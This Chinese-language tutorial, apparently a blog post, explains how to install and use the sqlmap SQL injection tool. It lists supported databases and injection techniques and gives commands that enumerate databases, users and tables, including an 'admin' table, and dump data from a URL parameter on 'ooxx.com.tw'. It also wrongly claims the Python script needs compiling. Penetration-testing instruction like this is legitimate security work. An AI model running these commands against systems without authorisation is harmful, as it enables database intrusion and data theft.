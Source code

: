 ```yaml
---
title: 如何使用 sqlmap 进行数据库渗透测试
date: 2024-12-25T14:00:22+08:00
author: LiangMingJian
---
```


# 概述

**sqlmap 是一个开源的数据库渗透测试工具，它自动化了 sql 检测，注入的过程。**

[ sqlmap官网下载 ](http://sqlmap.org/)

```bash
# 进入 sqlmap 源码文件夹，因为 sqlmap 用的是 python2 编写的，需要编译后使用
tar zxvf sqlmap.tar.gz
cd sqlmap
./sqlmap.py
# 创建 sqlmap 命令
ln -s /root/sqlmapproject-sqlmap-7eab1bc/sqlmap.py /usr/bin/sqlmap
sqlmap -h # 帮助命令
```

# 支持的语法

sqlmap 命令选项被归类为目标（Target）、请求（Request）、优化、注入、检测、技巧（Techniques）、指纹、枚举等。当给 sqlmap 一个 url 的时候，它会执行如下操作：

1. 判断可注入的参数
2. 判断可以用那种 sql 注入技术来注入
3. 识别出哪种数据库
4. 根据用户选择，读取哪些数据

# 支持的数据库

MySQL， Oracle，PostgreSQL，Microsoft SQL Server，Microsoft Access，IBM DB2，SQLite 等

# 支持的注入模式

- 基于布尔的盲注，即可以根据返回页面判断条件真假的注入
- 基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断
- 基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中
- 联合查询注入，可以使用 union 的情况下的注入
- 堆查询注入，可以同时执行多条语句的执行时的注入

# 基本使用

```bash
sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11"        # 检查注入点 
sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" --dbs  # 列出数据库信息    
sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" -D xxxxx --tables            # 指定库名, 并列出所有表
sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" -D xxxxx -T admin --columns  # 指定库名, 并表名列出所有字段
                                                                               
sqlmap -u "注入地址" -v 1 --dbs              # 列出数据库   
sqlmap -u "注入地址" -v 1 --current-db       # 列出当前数据库  
sqlmap -u "注入地址" -v 1 --users            # 列出数据库用户  
sqlmap -u "注入地址" -v 1 --current-user     # 列出当前用户  
sqlmap -u "注入地址" -v 1 --tables -D "数据库"                         # 列出数据库的表名  
sqlmap -u "注入地址" -v 1 --columns -T "表名" -D "数据库"               # 获取表的列名  
sqlmap -u "注入地址" -v 1 --dump -C "字段,字段" -T "表名" -D "数据库"    # 获取表中的数据   
```